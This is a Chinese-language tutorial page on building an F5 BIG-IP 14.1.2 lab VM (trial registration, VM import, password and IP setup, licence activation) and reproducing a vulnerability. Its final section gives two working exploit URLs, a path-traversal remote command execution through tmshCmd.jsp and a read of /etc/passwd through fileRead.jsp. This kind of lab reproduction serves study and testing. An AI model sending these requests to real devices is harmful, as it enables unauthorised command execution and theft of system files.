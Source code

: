 ```yaml
---
description: 图是偷的，过程是自己的
---
```


# F5 big-ip从环境搭建到漏洞复现

### 1、 注册账号

去F5官网下载90天试用版本。 地址：[https://f5.com/zh/products/trials/product-trials](https://f5.com/zh/products/trials/product-trials)

打开网站后，选择BIG-IP云版本

![](../.gitbook/assets/bigip01.jpg)

 

点击后，按照页面中的指示开始注册账号并申请key

```text
1. 登录或注册
使用 F5 支持 ID 登录，并申请试用版密钥。
若无 F5 支持帐户，请单击下方链接进行创建。

2. 申请密钥
登录后，请选择 BIGIP 云版本及所需的许可数量。订单将通过您创建支持帐户时使用的电子邮件发送给您。

3. 下载软件
您可在等待密钥期间下载软件。只需选择虚拟机监控程序（见下文）开始下载即可。

4. 启动
请使用密钥解锁试用版，并开始在自己的环境中设置 BIG-IP 云版本。使用我们的其中一种云解决方案模板即可快速开始配置。
```

注册地址如下：[https://login.f5.com/resource/login.jsp?ctx=719748](https://login.f5.com/resource/login.jsp?ctx=719748)

若没有账号，点击页面中的`create one`即可开始注册

![](../.gitbook/assets/bigip02.jpg)

因为我已经注册了，所以下面的步骤就不显示了，总之第一步，会输入邮箱地址

![](../.gitbook/assets/bigip03.jpg)



之后在邮箱中会出现一个设置密码的链接

![](../.gitbook/assets/bigip04.jpg)

（鬼知道中间省略了多少个步骤）

按照提示申请完秘钥之后，会收到这样一封邮件：

![](../.gitbook/assets/bigip05.jpg)

### 2、 导入虚拟机

下载BIG-IP的.ova文件，这里因为在外面下载的太慢了，百度链接如下：  
14.1.2版本OVA文件：  
链接：[https://pan.baidu.com/s/1VFHVwLhiDsW3W2x7fwcUuw](https://pan.baidu.com/s/1VFHVwLhiDsW3W2x7fwcUuw)   
提取码：rbtk

14.1.2版本VMDK文件：（打开虚拟机，配置IP后可**直接**漏洞利用，root,admin/Admin!@\#456）  
链接：[https://pan.baidu.com/s/1FdWZg9lf7dF109pLxedn7A](https://pan.baidu.com/s/1FdWZg9lf7dF109pLxedn7A) 提取码：ali4

下载成功后，导入到虚拟机，开机即可

开机后，会提示输入密码，前两次都是默认账号密码：root/default

![](../.gitbook/assets/bigip06.jpg)

之后修改密码，要求：必须包含大小写字母与数字，符号，长度不得小于8位，此处可设置Admin!@\#456

设置该虚拟机的网络，网卡任意模式即可 （原有好几块网卡，可以删除一些，最后只剩一张）

![](../.gitbook/assets/bigip07.jpg)

在/config目录下，输入config，设置IP地址，默认选择IPV4，然后连续按两次回车，等待命令行出现即可

![](../.gitbook/assets/bigip08.jpg)

设置好IP地址后，建议使用nmap等端口扫描工具扫一下，毕竟我的环境和小伙伴的环境BIGIP的运行端口都不一样

打开网站，用户名与密码不是默认的admin/admin（那是高版本的），而是刚设置的Admin!@\#456

### 3、 激活big-ip

此时网站处于未激活状态，可点击NEXT进行激活

![](../.gitbook/assets/bigip09.jpg)

输入申请到的邮箱里的registration key.点击Next

![](../.gitbook/assets/bigip10.jpg)

将1中的内容复制到2中新开的网页中并NEXT，最后将生成的内容粘贴到3中即可

![](../.gitbook/assets/bigip11.jpg)

![](../.gitbook/assets/bigip12.jpg)

重新登录，即可激活成功

### 4、 漏洞利用

```text
RCE:
http://IP:PORT/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

文件读取：
http://IP:PORT/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

效果图如下：

![](../.gitbook/assets/bigip13.jpg)





